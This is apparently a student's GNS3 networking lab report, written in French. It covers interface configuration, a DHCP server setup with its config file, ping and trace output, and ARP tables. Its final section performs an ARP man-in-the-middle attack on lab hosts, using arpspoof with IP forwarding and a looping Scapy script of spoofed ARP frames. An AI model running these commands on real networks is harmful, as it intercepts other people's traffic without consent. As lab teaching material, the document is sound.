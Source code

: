 # tp2-GNS3
## etape1
sudo vi /etc/sysconfig/network-scripts/ifcfg-eth0
DEVICE=eth0
NAME=nat
BOOTPROTO=dhcp
ONBOOT=yes

sudo nmcli connection reload
sudo nmcli connection up nat
 ping 8.8.8.8
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=113 time=23.4 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=113 time=36.8 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=113 time=25.3 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=113 time=29.2 ms

sudo vi /etc/sysconfig/network-scripts/ifcfg-eth1

DEVICE=eth1
NAME=lan

BOOTPROTO=static
ONBOOT=yes

IPADDR=10.2.1.254
NETMASK=255.255.255.0

sudo nmcli connection reload
sudo nmcli connection up lan

ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group defau0
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP gro0
    link/ether 0c:07:55:a4:00:00 brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    altname ens3
    inet 192.168.122.218/24 brd 192.168.122.255 scope global dynamic noprefixro0
       valid_lft 3082sec preferred_lft 3082sec
    inet6 fe80::e07:55ff:fea4:0/64 scope link
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP gro0
    link/ether 0c:07:55:a4:00:01 brd ff:ff:ff:ff:ff:ff
    altname enp0s4
    altname ens4
    inet 10.2.1.254/24 brd 10.2.1.255 scope global noprefixroute eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::e07:55ff:fea4:1/64 scope link
       valid_lft forever preferred_lft forever

##Configuration de node1.tp2.efrei
##Ping de node1.tp2.efrei vers router.tp2.efrei
 ping 10.2.1.254

84 bytes from 10.2.1.254 icmp_seq=1 ttl=64 time=3.093 ms
84 bytes from 10.2.1.254 icmp_seq=2 ttl=64 time=3.395 ms
84 bytes from 10.2.1.254 icmp_seq=3 ttl=64 time=2.212 ms
84 bytes from 10.2.1.254 icmp_seq=4 ttl=64 time=2.400 ms
84 bytes from 10.2.1.254 icmp_seq=5 ttl=64 time=1.684 ms

##Ping de node1.tp2.efrei vers 8.8.8.8
 ping 8.8.8.8

84 bytes from 8.8.8.8 icmp_seq=1 ttl=108 time=61.994 ms
84 bytes from 8.8.8.8 icmp_seq=2 ttl=108 time=86.531 ms
84 bytes from 8.8.8.8 icmp_seq=3 ttl=108 time=45.078 ms
84 bytes from 8.8.8.8 icmp_seq=4 ttl=108 time=60.953 ms
84 bytes from 8.8.8.8 icmp_seq=5 ttl=108 time=70.305 ms

trace  8.8.8.8
trace to 8.8.8.8, 8 hops max, press Ctrl+C to stop
 1   10.2.1.254   6.385 ms  2.220 ms  0.811 ms
 2   192.168.122.1   3.353 ms  1.950 ms  1.917 ms
 3   10.0.3.2   3.015 ms  1.565 ms  1.540 ms
 4   *10.0.3.2   48.571 ms (ICMP type:3, code:3, Destination port unreachable)


##Afficher la CAM Table du switch

Vlan    Mac Address       Type        Ports
----    -----------       --------    -----
   1    0050.7966.6800    DYNAMIC     Et0/0
   1    0c7e.7046.0001    DYNAMIC     Et0/1
Total Mac Addresses for this criterion: 2


##etape 2

 Installation et configuration du serveur DHCP sur dhcp.tp2.efrei



 ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group defau0
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP gro0
    link/ether 0c:34:22:11:00:00 brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    altname ens3
    inet 10.2.1.253/24 brd 10.2.1.255 scope global noprefixroute eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::e34:22ff:fe11:0/64 scope link
       valid_lft forever preferred_lft forever

 ip route show
default via 10.2.1.254 dev eth0 proto static metric 100
10.2.1.0/24 dev eth0 proto kernel scope link src 10.2.1.253 metric 100


 ping 8.8.8.8
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=112 time=44.8 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=112 time=23.4 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=112 time=27.0 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=112 time=26.4 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3006ms
rtt min/avg/max/mdev = 23.402/30.399/44.775/8.411 ms


##Configuration DHCP

sudo dnf -y install dhcp-server

sudo vi /etc/dhcp/dhcpd.conf

# this DHCP server to be declared valid
authoritative;

# specify network address and subnetmask
subnet 10.2.1.0 netmask 255.255.255.0 {
    # specify the range of lease IP address
    range dynamic-bootp 10.2.1.10 10.2.1.199;
    # specify broadcast address
    option broadcast-address 10.2.1.255;
    # specify gateway
    option routers 10.2.1.254;
}

##Test du DHCP sur node1.tp2.efrei

PC1> dhcp
DDORA IP 10.2.1.10/24 GW 10.2.1.254

##BONUS

# this DHCP server to be declared valid
authoritative;

# specify network address and subnetmask
subnet 10.2.1.0 netmask 255.255.255.0 {
    # specify the range of lease IP address
    range dynamic-bootp 10.2.1.10 10.2.1.199;
    # specify broadcast address
    option broadcast-address 10.2.1.255;
    # specify gateway
    option routers 10.2.1.254;
    option domain-name-servers 1.1.1.1;
}

## Wireshark

##etape3
Affichez la table ARP de router.tp2.efrei

 ip neighbor show
10.2.1.1 dev eth1 lladdr 00:50:79:66:68:00 STALE
192.168.122.1 dev eth0 lladdr 52:54:00:23:04:c2 STALE
10.2.1.253 dev eth1 lladdr 0c:f8:d7:6a:00:00 STALE

 Capturez l'échange ARP avec Wireshark


 Envoyer une trame ARP arbitraire

 sudo apt install arping

 sudo arping 10.2.1.10
ARPING 10.2.1.10
58 bytes from 00:50:79:66:68:00 (10.2.1.10): index=0 time=7.364 msec
58 bytes from 00:50:79:66:68:00 (10.2.1.10): index=1 time=20.459 msec
58 bytes from 00:50:79:66:68:00 (10.2.1.10): index=2 time=27.459 msec
58 bytes from 00:50:79:66:68:00 (10.2.1.10): index=3 time=53.700 msec
58 bytes from 00:50:79:66:68:00 (10.2.1.10): index=4 time=7.344 msec
58 bytes from 00:50:79:66:68:00 (10.2.1.10): index=5 time=17.578 msec
^C
--- 10.2.1.10 statistics ---
3 packets transmitted, 6 packets received,   0% unanswered (3 extra)
rtt min/avg/max/std-dev = 7.344/22.317/53.700/15.732 ms

PC1> show arp

0c:e6:03:92:00:00  10.2.1.11 expires in 79 seconds

Mettre en place un ARP MITM

 sudo apt install dsniff

 sudo sysctl -w net.ipv4.ip_forward=1

 sudo arpspoof -i ens4 -r -t 10.2.1.10 10.2.1.254
c:e6:3:92:0:0 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at c:e6:3:92:0:0
c:e6:3:92:0:0 c:a:72:0:0:1 0806 42: arp reply 10.2.1.10 is-at c:e6:3:92:0:0
c:e6:3:92:0:0 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at c:e6:3:92:0:0
c:e6:3:92:0:0 c:a:72:0:0:1 0806 42: arp reply 10.2.1.10 is-at c:e6:3:92:0:0

Table ARP de node1.tp2.efrei :

 show arp

0c:e6:03:92:00:00  10.2.1.11 expires in 28 seconds
0c:e6:03:92:00:00  10.2.1.254 expires in 120 seconds

ip neighbor show
10.2.1.11 dev eth1 lladdr 0c:e6:03:92:00:00 STALE
192.168.122.1 dev eth0 lladdr 52:54:00:23:04:c2 STALE
10.2.1.253 dev eth1 lladdr 0c:f8:d7:6a:00:00 STALE
10.2.1.10 dev eth1 lladdr 0c:e6:03:92:00:00 REACHABLE

Capture Wireshark arp_mitm.pcap

Réaliser la même attaque avec Scapy

from scapy.all import *

victime = Ether(dst="00:50:79:66:68:00")/ARP (pdst="10.2.1.10", psrc="10.2.1.254")
routeur = Ether(dst="0c:0a:72:00:00:01")/ARP (pdst="10.2.1.254", psrc="10.2.1.10")

while True:

    sendp(victime, iface="enp0s3")
    sendp(routeur, iface="enp0s3")
